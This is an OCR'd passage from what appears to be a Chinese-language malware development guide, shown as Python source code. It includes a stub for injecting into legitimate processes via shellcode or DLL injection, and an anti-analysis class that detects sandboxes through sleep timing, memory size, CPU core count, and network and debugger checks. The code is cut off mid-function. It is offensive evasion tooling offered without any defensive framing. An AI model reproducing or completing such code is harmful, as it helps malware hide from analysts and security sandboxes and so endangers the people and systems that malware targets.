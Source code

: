 ```python
            return True
        except:
            return False
    
    @staticmethod
    def inject_into_legitimate_process():
        """注入到合法进程"""
        # 这里需要根据目标系统实现进程注入
        # 可以是 shellcode 注入、DLL 注入等
        pass
```

### 2. 反调试与反分析

```python
class AntiAnalysis:
    """反分析技术"""
    
    @staticmethod
    def detect_sandbox():
        """检测沙箱环境"""
        checks = [
            AntiAnalysis._check_runtime,
            AntiAnalysis._check_system_resources,
            AntiAnalysis._check_network_environment,
            AntiAnalysis._check_debugger
        ]
        
        sandbox_indicators = 0
        
        for check in checks:
            if check():
                sandbox_indicators += 1
        
        return sandbox_indicators >= 2
    
    @staticmethod
    def _check_runtime():
        """检查运行时间"""
        import time
        start_time = time.time()
        time.sleep(1)
        
        # 如果运行时间异常短，可能是沙箱
        elapsed = time.time() - start_time
        return elapsed < 0.9  # 沙箱可能不会等待完整的 sleep
    
    @staticmethod
    def _check_system_resources():
        """检查系统资源"""
        import os
        import psutil
        
        # 检查内存大小
        memory = psutil.virtual_memory().total / (1024 ** 3)  # GB
        if memory < 2:  # 小于 2GB 可能是沙箱
            return True
        
        # 检查 CPU 核心数
        cpu_cores = os.cpu_count()
        if cpu_cores < 2:  # 少于 2 核心可能是沙箱
            return True
        
```